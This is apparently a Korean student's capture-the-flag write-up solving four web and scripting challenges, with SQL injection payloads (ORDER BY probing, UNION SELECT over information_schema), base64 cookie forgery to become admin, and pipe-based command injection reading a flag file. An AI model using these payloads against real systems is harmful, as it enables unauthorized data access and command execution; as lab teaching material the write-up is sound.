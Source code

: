 고등해커 Write_Up (Yung Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

#### and 입력 가능한지 확인
! [and 입력 시도] (./선린의털(1).PNG)

위 사진과 같이 and가 먹히는걸 확인할 수 있다.
#### 컬럼 개수 알아 내기
! [컬럼 갯수 알아내기] (./선린의털(2).PNG)

위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> no=3 and 3 order by 1
> 
> no=3 and 3 order by 2
> 
> no=3 and 3 order by 3 여기서 부터 오류

따라서 컬럼 개수는 2개

! [테이블 이름 알아내기] (./선린의털(3).PNG)

> no=3 union select 1,info from information_schema.processlist order by 1

쿼리 출력을 이용하여 컬럼명이 contents

! [컬럼 이름 알아내기] (./선린의털(4).PNG)

> no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
(order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

! [fleg 알아내기!] (./선린의털(5).PNG)

> no=3 union select 1, group_concat(content) from contents order by 1

이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

##### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> sunrin 으로 로그인하여 f12로 쿠키 확인 
> > username값 확인 (base64 인코딩 되어있음)
> >> admin (base64로 인코딩)해서 username 값에 넣기

! [쿠키 확인] (./Basic_Login(1).PNG)

개발자 도구로 username 변수 값 확인

base64 디코딩 해보니 sunrin

! [flag 얻기] (./Basic_Login(2).PNG)

admin을 base64로 인코딩하여 username 변수에 대입

새로고침 -> clear

##### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> 이 문제와 비슷한 문제를 본적이 있음
> > 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> 리눅스 명령어를 활용해 풀기

! [ls 입력] (./nslookup(1).PNG)

> 아무 값 | ls

or 이용해서 파일을 한번 봤는데 flag 파일 발견

! [flag 확인] (./nslookup(2).PNG)

> 아무 값 | cat flag 파일 이름

##### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> nc로 접속해보니 일반적인 방정식 문제였다.
> > 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인] (./Easy_Math_Game(1).PNG)

위와 같이 문제 확인

![코드 테스트] (./Easy_Math_Game(2).PNG)

##### 계수 입력하면 풀어주는 코드

```
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

! [flag 확인] (./nslookup(3).PNG)

##### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}